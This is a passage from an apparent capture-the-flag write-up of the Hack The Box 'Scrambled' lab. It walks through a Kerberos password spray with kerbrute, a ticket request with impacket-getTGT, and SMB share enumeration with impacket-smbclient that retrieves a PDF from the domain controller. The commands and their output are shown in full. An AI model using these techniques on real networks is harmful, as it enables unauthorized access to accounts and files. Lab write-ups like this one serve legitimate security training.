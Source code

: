 ## Password Spray

Now we can use a password spray against them, knowing that the password is the same as the username I get this when I try ksimpson:

```sh
┌──(root㉿kali)-[~/htb/scrambled]
└─# ./kerbrute_linux_amd64 passwordspray -d scrm.local --dc scrm.local user.txt ksimpson 
    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        
Version: v1.0.3 (9dad6e1) - 07/08/22 - Ronnie Flathers @ropnop

2022/07/08 17:53:11 >  Using KDC(s):
2022/07/08 17:53:11 >   scrm.local:88
2022/07/08 17:53:11 >  [+] VALID LOGIN:  KSIMPSON@scrm.local:ksimpson
2022/07/08 17:53:11 >  Done! Tested 1 logins (1 successes) in 0.116 seconds
```

## Get Ticket Granting Ticket

With a valid username and password we can request a ticket:

```sh
┌──(root㉿kali)-[~/htb/scrambled]
└─# impacket-getTGT scrm.local/ksimpson:ksimpson
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
[*] Saving ticket in ksimpson.ccache

┌──(root㉿kali)-[~/htb/scrambled]
└─# export KRB5CCNAME=ksimpson.ccache
```

## SMB Enumeration

We can use this to look for file shares on SMB:

```sh
┌──(root㉿kali)-[~/htb/scrambled]
└─# impacket-smbclient -k -no-pass scrm.local/ksimpson@dc1.scrm.local
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
# shares
ADMIN$
C$
HR
IPC$
IT
NETLOGON
Public
Sales
SYSVOL

# use Public
# ls
drw-rw-rw-          0  Thu Nov  4 22:23:19 2021 .
drw-rw-rw-          0  Thu Nov  4 22:23:19 2021 ..
-rw-rw-rw-     630106  Fri Nov  5 17:45:07 2021 Network Security Changes.pdf

# get Network Security Changes.pdf
# exit
```
